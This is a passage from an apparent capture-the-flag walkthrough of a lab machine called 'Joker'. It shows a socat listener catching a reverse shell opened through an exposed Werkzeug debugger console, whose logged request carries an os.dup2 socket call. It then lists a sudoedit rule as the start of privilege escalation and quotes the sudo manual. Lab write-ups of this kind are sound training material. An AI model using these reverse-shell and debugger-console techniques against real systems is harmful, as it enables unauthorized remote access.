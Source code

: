 ![image-20200803163643525](https://0xdfimages.gitlab.io/img/image-20200803163643525.png)

At `socat`:

```

root@kali# socat file:`tty`,raw,echo=0 udp-listen:53
127.0.0.1 - - [03/Aug/2020 23:55:55] "GET /console?__debugger__=yes&cmd=os.dup2(s.fileno()%2C2)&frm=0&s=p9c0pgvzQFZkepakugdO HTTP/1.1" 200 -
                                                                                                                                            werkzeug@joker:~$ id
uid=1000(werkzeug) gid=1000(werkzeug) groups=1000(werkzeug)
werkzeug@joker:~$

```

## Priv: werkzeug –> alekos

### Enumeration

Before I run enumeration scripts, I always check `sudo`, and there’s an entry:

```

werkzeug@joker:/home/alekos$ sudo -l
Matching Defaults entries for werkzeug on joker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    sudoedit_follow, !sudoedit_checkdir

User werkzeug may run the following commands on joker:
    (alekos) NOPASSWD: sudoedit /var/www/*/*/layout.html

```

`sudoedit` is a shortcut for running `sudo` with the `-e` flag:

> The **-e** (*edit*) option indicates that, instead of running a command, the user wishes to edit one or more files. In lieu of a command, the string “sudoedit” is used when consulting the security policy. If the user is authorized by the policy, the following steps are taken:
>
> 1. Temporary copies are made of the files to be edited with the owner set to the invoking user.
> 2. The editor specified by the policy is run to edit the temporary files. The *sudoers* policy uses the SUDO\_EDITOR, VISUAL and EDITOR environment variables (in that order). If none of SUDO\_EDITOR, VISUAL or EDITOR are set, the first program listed in the *editor* **[sudoers](https://linux.die.net/man/5/sudoers)**(5) option is used.
> 3. If they have been modified, the temporary files are copied back to their original location and the temporary versions are removed.
>
> If the specified file does not exist, it will be created. Note that unlike most commands run by *sudo*, the editor is run with the invoking user’s environment unmodified. If, for some reason, **sudo** is unable to update a file with its edited version, the user will receive a warning and the edited copy will remain in a temporary file.
